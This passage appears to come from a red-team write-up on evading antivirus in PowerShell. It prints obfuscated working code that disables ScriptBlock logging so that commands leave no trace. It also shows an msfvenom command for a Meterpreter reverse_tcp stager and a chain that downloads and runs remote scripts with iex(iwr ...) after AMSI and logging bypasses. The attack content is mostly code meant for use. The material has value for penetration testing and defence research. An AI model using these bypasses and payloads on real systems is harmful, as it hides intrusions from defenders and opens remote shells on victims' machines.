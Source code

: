 A ready to use [Invoke-Bypass.ps1](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1) script is available on [d0nkeys/redteam](https://github.com/d0nkeys/redteam) repository on GitHub. [12]

### Disable ScriptBlockLog

First of all, in order to avoid to be detected after having disabled AMSI, we need to be sure that no logs of our commands are saved on disk, otherwise the AV will spot our activity. There is a public known bypass to disable the built-in `ScriptBlockLog` mechanism of PowerShell. [17]

```powershell
$GPF=[ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','N'+'onPublic,Static');
If($GPF){
    $GPC=$GPF.GetValue($null);
    If($GPC['ScriptB'+'lockLogging']){
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockInvocationLogging']=0
    }
    $val=[Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptB'+'lockLogging',0);
    $val.Add('EnableScriptB'+'lockInvocationLogging',0);
    $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val
} Else {
    [ScriptBlock].GetField('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
}
```

It works by doing two things:

1. disable global logging of scripts: if Domain Admins enable global logging of scripts, every script will be recorded on the disk. To disable it we just overwrite the in-memory representation of the Group Policy Settings.
2. replace the dictionary of known signatures with an empty one: some signatures always trigger a log action, even if the Script Block Logging mechanism is not enabled via Group Policy (_sic!_). In order to disable it, we replace this dictionary of known signatures with an empty one, always in our memory space.


### Meterpreter

We can use the bypass to first spawn a meterpreter instance via PowerShell and then to execute any `*.ps1` scripts. A [PR](https://github.com/rapid7/rex-powershell/pull/17) do it automagically is on its way.
For now, to spawn it we need to generate the stager via the following command:

```asd
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=3000 LHOST=127.0.0.1 -f psh > meter.ps1
```

and execute the bypass before it:

```powershell
iex(iwr https://127.0.0.1/Invoke-Bypass.ps1)
Invoke-BypassScriptBlockLog
Invoke-BypassAMSI
iex(iwr https://127.0.0.1/meter.ps1)
```
